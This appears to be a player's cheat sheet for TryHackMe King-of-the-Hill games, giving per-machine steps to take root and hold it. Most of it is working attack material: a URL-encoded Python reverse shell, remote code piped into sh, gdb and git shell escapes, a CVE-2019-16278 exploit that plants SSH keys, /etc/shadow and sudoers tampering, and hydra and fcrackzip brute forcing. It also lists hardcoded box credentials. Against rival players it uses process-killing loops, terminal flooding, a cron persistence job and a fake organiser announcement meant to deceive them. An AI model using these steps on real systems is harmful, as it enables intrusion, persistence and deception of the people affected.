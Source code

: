 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
```

## Fortune:  
Requires: fcrackzip  
```
nc <BOX_IP> 3333  
```
Returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
```
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
```
Open the zip with the password you got.  Should contain password for fortune account.  
```
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
```
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
`sudo su`  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for. 
	
## Lion:
Requires: cve2019-16278.py(file in github), Hydra

```ssh-keygen```
When generating the key, leave the passphrase empty.  This can be done beforehand.
`cat <Your Key Name>.pub` (e.g. cat keygen.pub)
```python2 cve2019-16278.py <KOTH IP> 8080 "mkdir /home/gloria/.ssh; echo '<YOUR *.pub file data>' > /home/gloria/.ssh/authorized_keys"```
Replace <YOUR \*.pub file data> with what you got from the cat.
```
ssh -i sshkey gloria@<KOTH IP> -p 1337
/usr/bin/tmux -S /.dev/session
```
You are Now ROOT

Flag Locations
```
/home/gloria/user.txt	 
/home/marty/user.txt	Reversed
/home/alex/user.txt	Rot13
/root/.flag	 
/opt/code/server.py	 
MySQL: db-> blog, table-> users, id-> 140	 
```
Brute force MYSQL Password with Hydra
```
hydra -l root -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> mysql
```

PATCHING
1. Kill Nostromo, and replace with new server.
2. Apply LFI Patch on port 5555.
3. Patch insecure file upload.
4. Change password, do the usual things.


# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &   
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



